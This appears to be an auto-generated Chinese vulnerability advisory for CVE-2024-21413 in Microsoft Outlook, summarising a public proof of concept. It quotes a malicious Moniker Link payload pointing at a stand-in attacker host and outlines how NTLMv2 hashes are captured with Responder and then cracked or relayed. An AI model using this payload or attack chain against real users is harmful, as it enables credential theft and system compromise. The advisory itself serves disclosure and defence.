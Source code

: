 ## CVE-2024-21413 - Microsoft Outlook RCE

**漏洞编号:** CVE-2024-21413

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Microsoft Outlook

**危害等级:** 高危，可导致远程代码执行，完全控制受害者系统

**影响版本:** 受影响版本包括 Microsoft Office 2016、2019、LTSC 2021 和 Microsoft 365 Apps for Enterprise

**利用条件:** 需要受害者点击恶意链接，或者通过其他方式触发Outlook尝试访问攻击者控制的SMB服务器。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2024-21413 是一个 Microsoft Outlook 远程代码执行漏洞，该漏洞源于Outlook处理特定类型的链接时存在缺陷。攻击者可以通过构造包含恶意 Moniker Link (例如 `file://ATTACKER_IP/test!exploit`) 的 HTML 电子邮件，诱使用户点击该链接。当受害者点击该链接时，Outlook会尝试通过 SMB 协议连接到攻击者指定的服务器。攻击者可以使用 Responder 等工具监听 SMB 连接，并捕获受害者的 NTLMv2 哈希。虽然此PoC的直接目的是捕获NetNTLMv2 哈希，但这只是攻击链的一部分。在某些配置下，捕获的哈希可以被破解或重放，以获得对受害者系统的进一步访问。根据 Checkpoint 的研究，该漏洞利用了 `MkParseDisplayName()` API。PoC代码提供了一个可行的攻击方法，但需要进行一些配置，例如替换`ATTACKER_IP`和设置正确的邮件服务器信息。投毒风险评估为10%，主要是因为该PoC代码需要受害者交互（点击链接），并且依赖于Responder等工具来捕获哈希，这本身并不属于漏洞利用，但是不排除攻击者在其他地方插入恶意代码的可能性。漏洞库信息中提到CWE-20: Improper Input Validation，也说明了该漏洞是由于输入验证不当引起的。利用方式总结如下：

1.  攻击者构造包含恶意 Moniker Link 的 HTML 电子邮件。
2.  攻击者发送电子邮件给受害者。
3.  受害者点击电子邮件中的恶意链接。
4.  Outlook 尝试通过 SMB 协议连接到攻击者控制的服务器。
5.  攻击者使用 Responder 等工具捕获受害者的 NTLMv2 哈希。
6.  攻击者破解或重放 NTLMv2 哈希以获得对受害者系统的进一步访问（可选）。

**项目地址:** [yass2400012/Email-exploit-Moniker-Link-CVE-2024-21413-](https://github.com/yass2400012/Email-exploit-Moniker-Link-CVE-2024-21413-)

**漏洞详情:** [CVE-2024-21413](https://nvd.nist.gov/vuln/detail/CVE-2024-21413)